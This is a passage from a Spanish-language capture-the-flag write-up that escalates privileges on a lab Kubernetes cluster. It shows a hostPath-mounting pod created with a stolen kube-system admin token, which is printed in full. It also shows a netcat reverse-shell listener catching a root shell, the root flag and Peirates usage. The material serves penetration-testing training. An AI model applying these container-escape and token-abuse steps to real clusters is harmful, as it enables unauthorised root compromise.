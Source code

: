 ```null
  - name: noderoot
    hostPath:
      path: /root/
```

Creo el POD y gano acceso en una sesión de netcat

```null
root@devnode-deployment-776dbcf7d6-sr6vj:/tmp# ./kbctl create -f pod.yaml --token eyJhbGciOiJSUzI1NiIsImtpZCI6InRqSFZ0OThnZENVcDh4SXltTGhfU0hEX3A2UXBhMG03X2pxUVYtMHlrY2cifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2Vh
Y2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJrdWJlLXN5c3RlbSIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VjcmV0Lm5hbWUiOiJjLWFkbWluLXRva2VuLWI0N2Y3Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3Vud
C9zZXJ2aWNlLWFjY291bnQubmFtZSI6ImMtYWRtaW4iLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC51aWQiOiIzMTc3OGQxNy05MDhkLTRlYzMtOTA1OC0xZTUyMzE4MGIxNGMiLCJzdWIiOiJzeXN0ZW06c2VydmljZWFjY291bnQ6a3ViZS
1zeXN0ZW06Yy1hZG1pbiJ9.fka_UUceIJAo3xmFl8RXncWEsZC3WUROw5x6dmgQh_81eam1xyxq_ilIz6Cj6H7v5BjcgIiwsWU9u13veY6dFErOsf1I10nADqZD66VQ24I6TLqFasTpnRHG_ezWK8UuXrZcHBu4Hrih4LAa2rpORm8xRAuNVEmibYNGhj_PNeZ6EWQJw7n87lir2l
YcqGEY11kXBRSilRU1gNhWbnKoKReG_OThiS5cCo2ds8KDX6BZwxEpfW4A7fKC-SdLYQq6_i2EzkVoBg8Vk2MlcGhN-0_uerr6rPbSi9faQNoKOZBYYfVHGGM3QDCAk3Du-YtByloBCfTw8XylG9EuTgtgZA
pod/pwned created
```

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.10.235] 43124
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@unobtainium:/usr/src/app# script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
root@unobtainium:/usr/src/app# ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
root@unobtainium:/usr/src/app# export TERM=xterm
root@unobtainium:/usr/src/app# export SHELL=bash
root@unobtainium:/usr/src/app# stty rows 55 columns 209
```

Puedo ver la segunda flag

```null
root@unobtainium:~# cat root.txt  
1e775b0bb9036ef44e911b727e2000a0
```

Una forma de automatizar la escalada sería utilizando la herramienta ```Peirates```, disponible en [Github](https://github.com/inguardians/peirates/releases/tag/v1.1.10)

```null
root@devnode-deployment-776dbcf7d6-sr6vj:/tmp# ./peirates -t eyJhbGciOiJSUzI1NiIsImtpZCI6InRqSFZ0OThnZENVcDh4SXltTGhfU0hEX3A2UXBhMG03X2pxUVYtMHlrY2cifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJrdWJlLXN5c3RlbSIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VjcmV0Lm5hbWUiOiJjLWFkbWluLXRva2VuLWI0N2Y3Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQubmFtZSI6ImMtYWRtaW4iLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC51aWQiOiIzMTc3OGQxNy05MDhkLTRlYzMtOTA1OC0xZTUyMzE4MGIxNGMiLCJzdWIiOiJzeXN0ZW06c2VydmljZWFjY291bnQ6a3ViZS1zeXN0ZW06Yy1hZG1pbiJ9.fka_UUceIJAo3xmFl8RXncWEsZC3WUROw5x6dmgQh_81eam1xyxq_ilIz6Cj6H7v5BjcgIiwsWU9u13veY6dFErOsf1I10nADqZD66VQ24I6TLqFasTpnRHG_ezWK8UuXrZcHBu4Hrih4LAa2rpORm8xRAuNVEmibYNGhj_PNeZ6EWQJw7n87lir2lYcqGEY11kXBRSilRU1gNhWbnKoKReG_OThiS5cCo2ds8KDX6BZwxEpfW4A7fKC-SdLYQq6_i2EzkVoBg8Vk2MlcGhN-0_uerr6rPbSi9faQNoKOZBYYfVHGGM3QDCAk3Du-YtByloBCfTw8XylG9EuTgtgZA

Peirates:># 10
```